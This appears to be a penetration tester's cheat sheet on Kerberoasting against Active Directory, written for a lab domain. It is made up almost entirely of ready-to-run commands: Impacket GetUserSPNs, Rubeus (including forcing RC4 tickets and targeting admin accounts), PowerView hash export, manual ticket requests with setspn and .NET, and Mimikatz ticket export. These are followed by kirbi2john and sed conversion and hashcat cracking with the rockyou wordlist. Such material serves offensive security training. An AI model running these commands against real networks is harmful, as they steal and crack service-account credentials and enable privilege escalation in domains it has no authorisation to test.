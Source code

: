 Depending on your position in a network, this attack can be performed in multiple ways:
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- **From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525\(v=ws.11\)) /netonly.**

Several tools can be utilized to perform the attack:
- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

#### GetUserSPNs
View groups
```bash
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

```bash
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request -outputfile kerberoast.out
impacket-GetUserSPNs -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev.tgs
```

```bash
hashcat -m 13100 kerberoast.out ~/rockyou.txt -O
```

#### Rubeus
View Kerberoastable account stats. 
```powershell
.\Rubeus.exe kerberoast /stats
```

> [!NOTE] Nore
>  If we see any SPN accounts with their passwords set 5 or more years ago, they could be promising targets as they could have a weak password 

Target a single user - **Adding `/tgtdeleg` will give us a RC4 ticket increasing cracking speeds (Doesn't work on Windows server 2019 and up)** 
```bash
.\Rubeus.exe kerberoast /tgtdeleg /user:sapservice /nowrap
```
Target admin accounts
```powershell
.\Rubeus.exe kerberoast /tgtdeleg /ldapfilter:'admincount=1' /nowrap
```
Check encryption type (`0`= `RC4` | `24`= `AES 128/256`) - **PowerView**
```powershell
Get-DomainUser sapservice -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
Crack
```bash
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt
```
#### PowerVIew
Extract TGS tickets
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
Target a specific user
```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```
Export tickets to a .csv
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
type .\ilfreight_tgs.csv
```
#### Manual Kerberoasting (Windows)
Enumerate SPNs - **ignore the computer accounts**
```powershell
setspn.exe -Q */*
```
Target a single user
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
Target all SPNs (users **and** computers)
```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```
Extract with mimikatz
```bash
base64 /out:true
kerberos::list /export  
```

> [!NOTE] Note
> If we decide to skip the base64 output with Mimikatz and type `mimikatz # kerberos::list /export`, the .kirbi file (or files) will be written to disk. In this case, we can download the file(s) and run `kirbi2john.py` against them directly, skipping the base64 decoding step.

Prepare base64 blob for cracking
```bash
echo "<base64 blob>" |  tr -d \\n 
cat encoded_file | base64 -d > sqldev.kirbi
```
Extract Kerberos ticket and modify for hashcat
```shell
kirbi2john sqldev.kirbi
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```
Crack
```bash
hashcat -m 13100 sqldev_tgs_hashcat ~/rockyou.txt -O
```